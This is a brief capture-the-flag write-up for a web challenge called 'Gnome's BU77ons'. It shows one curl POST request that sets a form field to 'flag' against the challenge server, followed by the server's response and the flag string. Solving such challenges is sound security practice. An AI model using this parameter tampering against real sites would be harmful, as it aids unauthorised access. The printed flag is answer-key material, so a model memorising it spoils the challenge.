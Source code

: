 # Gnome's BU77ons
Web

## Challenge 

	Who wouldn't enjoy pressing random buttons? Yeah, i guessed so! This time though, the bu77on isn't random...

	Server: http://199.247.6.180:12004

	Author: Vlad

## Solution

A shot in the dark...

	$ curl --data "button=flag" http://199.247.6.180:12004/
	<body>
	<h1 style="color: green;">HOROVIEO CHUM!</h1>
	<p>Web Dev Gnomes are dumb enough... Altough they hold (in)valueable knowdlege, they just can't keep it securely.</p>
	<form action="" method="post">
		<input type="submit" name="button" value="Click here boai" />
	</form>
	</body>

	X-MAS{PhPs_A1n7_m4d3_f0r_bu77_0ns___:)}


## Flag

	X-MAS{PhPs_A1n7_m4d3_f0r_bu77_0ns___:)}
